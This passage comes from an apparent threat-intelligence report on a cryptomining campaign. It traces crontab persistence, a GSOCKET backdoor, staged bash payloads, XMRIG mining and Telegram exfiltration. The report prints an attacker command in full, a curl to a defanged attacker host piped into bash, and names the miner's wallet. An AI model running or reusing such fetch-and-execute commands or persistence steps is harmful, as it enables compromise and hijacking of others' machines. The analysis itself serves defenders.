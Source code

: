 ### Mining activities

After nearly two weeks of manual exploitation attempts, the threat actors ceased their efforts to escalate privileges, likely having failed to gain root access. Instead, they established persistence as the `www-data` user, leveraging GSOCKET to set up an SSL connection, which was disguised as a kernel process called `[mm_percpu_wq]`.

After decoding the base64 contents, we get a very familiar looking output:

Through our behavioral rules, we see the threat actor listing the current user’s crontab entries, and echoing a payload directly into the crontab. 

This command tries to download `http://gcp.pagaelrescate[.]com:8080/ifindyou` every minute, and pipe it to bash. Looking at the contents of `ifindyou`, we see the following Bash script:

![Stage 1 - ifindyou.sh](/assets/images/betting-on-bots/image8.png "Stage 1 - ifindyou.sh")

This script gathers hostname and IP information, downloads the `SystemdXC` archive from `http://gcp.pagaelrescate[.]com:8080/t9r/SystemdXC` (XMRIG), stores this in `/tmp/SystemdXC`, extracts the archive and executes it with the necessary parameters to start mining Bitcoin.

When examining the mining command, we can see how the malware configures XMRIG:

This command connects to the `unmineable.com` mining pool, using the infected machine’s hostname as an identifier in the mining process. At the time of writing, there are 15 active workers mining Bitcoin for the wallet address `1CSUkd5FZMis5NDauKLDkcpvvgV1zrBCBz`.

![Bitcoin Address Lookup](/assets/images/betting-on-bots/image1.png "Bitcoin Address Lookup")

Upon further investigation into the Bitcoin address, we found that this address has performed a single transaction.

![Bitcoin Transaction](/assets/images/betting-on-bots/image32.png "Bitcoin Transaction")

Interestingly, the output address for this transaction points to a well-known [hot wallet](https://www.ledger.com/academy/topics/security/hot-wallet-vs-cold-crypto-wallet-whats-the-difference) associated with Binance, indicating that the attackers may have transferred their mining earnings to an exchange platform.

![Binance Wallet Destination](/assets/images/betting-on-bots/image10.png "Binance Wallet Destination")

When returning our focus back to the script, we also see two commands commented out, which will become more clear later. The script executes:

```
curl -s http://gcp.pagaelrescate[.]com:8080/cycnet | bash
```

Looking at this payload, we can see the following contents:

![Stage 2 - cycnet.sh](/assets/images/betting-on-bots/image23.png "Stage 2 - cycnet.sh")

This stage checks the output of the command, and sends this to a Telegram chat bot. Through our Telegram behavioral rule, we can see that a Telegram POST request looks like this:

The cron job that is set up during this stage executes at minute 0, every 4th hour. This job executes:

